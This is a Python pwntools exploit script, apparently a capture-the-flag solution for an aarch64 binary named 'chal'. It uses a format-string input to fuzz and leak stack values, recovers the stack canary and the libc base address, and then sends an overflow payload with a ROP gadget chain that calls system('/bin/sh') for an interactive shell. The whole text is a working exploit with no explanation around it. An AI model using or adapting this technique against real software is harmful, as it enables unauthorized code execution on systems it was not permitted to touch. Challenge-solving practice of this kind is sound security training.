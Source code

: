 ```python
# =========================================================
#                         EXPLOITS
# =========================================================
# chal: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=ac237637c81e388676baac60780e594c48a90541, for GNU/Linux 3.7.0, not stripped
# Arch:     aarch64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def fuzz():
    context.log_level = 'warning'
    for idx in range(1, 50):
        io = initialize()

        io.sendline(b'1')
        io.sendlineafter(b'of?', str(1337).encode())
        io.sendlineafter(b'appendage?', f'%{idx}$p'.encode())
        io.recvuntil(b'to: ')
        log.warning(f"[{idx}] = {io.recvline().strip()}")

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    io.sendline(b'1')
    io.sendlineafter(b'of?', str(1337).encode())
    io.sendlineafter(b'appendage?', b'%15$p||%21$p')
    io.recvuntil(b'to: 0x')
    canary = int(io.recvuntil(b'||', drop=True).strip(), 16)

    io.recvuntil(b'0x')
    leak = int(io.recvline().strip(), 16)
    libc.address = leak - 152 - libc.sym['__libc_start_main']

    offset = 104
    payload = flat({
        offset: [
            canary,
            0,
            libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
            0,
            canary,
        ]
    })
    payload += b'A' * 8
    payload += p64(libc.sym['system'])  # x1 and x2 already NULL
    payload += b'B' * 8
    payload += p64(next(libc.search(b'/bin/sh\x00')))

    io.sendlineafter(b'?!', payload)

    log.success('canary: %#x', canary)
    log.success('libc: %#x', libc.address)
    io.interactive()

if __name__ == '__main__':
    # fuzz()
    exploit()
```